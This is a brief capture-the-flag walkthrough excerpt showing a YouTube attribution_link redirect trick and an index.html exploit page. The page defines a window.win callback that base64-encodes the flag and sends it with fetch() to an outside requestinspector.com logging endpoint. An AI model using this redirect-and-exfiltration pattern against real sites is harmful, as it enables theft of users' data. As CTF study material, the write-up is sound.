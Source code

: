 https://youtube.com/attribution_link?u=https://m.youtube.com@requestinspector.com/inspect/01h6syjrr7k5qnh40r7grjr20x (youtube đã gần như fix lỗi này)

index.html
```
<!DOCTYPE html>
<html>
<head>
    <title>Example</title>
</head>
<body>
    <script>
        

        window.win = function(flag) {
            const encodedData = btoa(flag);
            fetch(`https://requestinspector.com/inspect/01h6tm8t5rg12stgds6h934hf7/?cc=${encodedData}`, {mode: 'no-cors'})
            console.log(encodedData);
        };

        
    </script>
</body>
</html>

```
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/850918d9-0b38-47b8-8c7e-64725352c3bd)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/7d4b2aa7-2e1a-48cb-ac89-c2431964b6f6)



